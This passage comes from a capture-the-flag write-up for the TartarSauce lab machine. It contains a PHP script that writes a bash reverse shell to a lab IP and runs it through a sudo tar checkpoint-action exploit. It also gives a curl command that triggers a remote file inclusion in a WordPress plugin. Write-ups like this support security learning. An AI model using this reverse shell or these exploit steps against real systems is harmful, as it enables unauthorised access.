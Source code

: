     onuma@TartarSauce: cat /var/backups/onuma_backup_error.txt
    ...
    ------------------------------------------------------------------------
    Integrity Check Error in backup last ran :  Wed May 30 09:38:30 EDT 2018
    ------------------------------------------------------------------------
    /var/tmp/.154b63306d83a3c63fb5d432d97be7807b521909
    diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
    1,7c1
    < User-agent: *
    < Disallow: /webservices/tar/tar/source/
    < Disallow: /webservices/monstra-3.0.4/
    < Disallow: /webservices/easy-file-uploader/
    < Disallow: /webservices/developmental/
    < Disallow: /webservices/phpmyadmin/
    <
    ---
    > e79abdab...
    Only in /var/www/html/webservices/monstra-3.0.4/public/uploads: .empty
    

## Beyond Root

### Shortcut Shell as onuma

In case I ever wanted to come back to this box and pick up with a shell as
onuma, this alternative php script will provide a reverse shell as onuma.

    
    
    root@kali# cat awp-load.php
    <?php
    system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.5/8082 0>&1' > /dev/shm/.a.sh");
    system("cd / && sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/.a.sh\"");
    ?>
    

The script simply has php system commands take the steps shown in privesc
above, writing a shell script, putting it into a tar archive, and then using
`sudo tar` to run it.

So to make it work, just start `python3 -m http.server 80`, `nc` on 8082, and
run `curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-
gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/a`.

### Rabbit Hole: Monstra CMS

Another super trollish move by the author is adding a `robot.txt` file with
multiple interesting sites, one of which exists, and is has RCE
vulnerabilities against it, and yet, none of them can work. Here’s how I
explored it anyway, and why the exploits don’t work.

#### robots.txt
